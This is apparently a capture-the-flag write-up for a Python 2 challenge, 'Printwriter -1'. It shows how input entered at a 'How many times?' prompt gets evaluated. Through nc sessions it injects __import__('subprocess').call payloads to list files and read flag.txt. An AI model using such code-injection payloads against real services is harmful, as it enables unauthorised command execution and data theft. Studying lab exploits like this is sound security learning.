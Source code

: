 # Printwriter -1

category: misc

> I'm not very good at C, so I coded this challenge in Python. Don't have Python 3 yet though, so I used Python 2... At least it can't be pwned!

I first noticed that there is some template injection (? because like we aren't using any templates here, idk what to call it):
```
┌──(suwandi㉿ryan)-[~/ctf/blahaj]
└─$ nc 188.166.197.31 30007
Print what? rwandi
How many times? 2*2
rwandi
rwandi
rwandi
rwandi
```

So we can get shell:

```
┌──(suwandi㉿ryan)-[~/ctf/blahaj]
└─$ nc 188.166.197.31 30007
Print what? a
How many times? __import__("subprocess").call(["ls","-l"])
total 8
-rw-r--r-- 1 root root  45 Dec  2 06:54 flag.txt
-rwxr-xr-x 1 root root 267 Dec  2 06:54 run
Print what? a
How many times? __import__("subprocess").call(["cat","flag.txt"])
blahaj{0uT_w17h_th3_N3W_4Nd_1N_w1tH_the_Old}
```